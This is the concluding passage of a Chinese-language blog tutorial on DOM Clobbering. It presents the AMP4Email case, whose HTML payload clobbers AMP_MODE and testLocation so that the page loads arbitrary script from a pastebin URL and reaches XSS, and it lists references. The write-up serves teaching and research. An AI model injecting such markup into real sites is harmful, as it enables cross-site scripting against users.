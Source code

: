如果我們能讓 `AMP_MODE.test` 跟 `AMP_MODE.localDev` 都是 truthy 的話，再搭配設置 `window.testLocation`，就能夠載入任意的 script！

所以 exploit 會長的像這樣：

``` html
// 讓 AMP_MODE.test 跟 AMP_MODE.localDev 有東西
<a id="AMP_MODE" name="localDev"></a>
<a id="AMP_MODE" name="test"></a>

// 設置 testLocation.protocol
<a id="testLocation"></a>
<a id="testLocation" name="protocol" 
   href="https://pastebin.com/raw/0tn8z0rG#"></a>
```

最後就能成功載入任意 script，進而達成 XSS！（不過當初作者只有試到這一步就被 CSP 擋住了）。

這應該是 DOM Clobbering 最有名的案例之一了。

## 總結

雖然說 DOM Clobbering 的使用場合有限，但真的是個相當有趣的攻擊方式！而且如果你不知道這個 feature 的話，可能完全沒想過可以透過 HTML 來影響全域變數的內容。

如果對這個攻擊手法有興趣的，可以參考 PortSwigger 的[文章](https://portswigger.net/web-security/dom-based/dom-clobbering)，裡面提供了兩個 lab 讓大家親自嘗試這個攻擊手法，光看是沒用的，要實際下去攻擊才更能體會。

參考資料：

1. [使用 Dom Clobbering 扩展 XSS](http://blog.zeddyu.info/2020/03/04/Dom-Clobbering/#HTML-Relationships)
2. [DOM Clobbering strikes back](https://portswigger.net/research/dom-clobbering-strikes-back)
3. [DOM Clobbering Attack学习记录.md](https://wonderkun.cc/2020/02/15/DOM%20Clobbering%20Attack%E5%AD%A6%E4%B9%A0%E8%AE%B0%E5%BD%95/)
4. [DOM Clobbering学习记录](https://ljdd520.github.io/2020/03/14/DOM-Clobbering%E5%AD%A6%E4%B9%A0%E8%AE%B0%E5%BD%95/)
5. [XSS in GMail’s AMP4Email via DOM Clobbering](https://research.securitum.com/xss-in-amp4email-dom-clobbering/)
6. [Is there a spec that the id of elements should be made global variable?](https://stackoverflow.com/questions/6381425/is-there-a-spec-that-the-id-of-elements-should-be-made-global-variable)
7. [Why don't we just use element IDs as identifiers in JavaScript?](https://stackoverflow.com/questions/25325221/why-dont-we-just-use-element-ids-as-identifiers-in-javascript)
8. [Do DOM tree elements with ids become global variables?](https://stackoverflow.com/questions/3434278/do-dom-tree-elements-with-ids-become-global-variables)
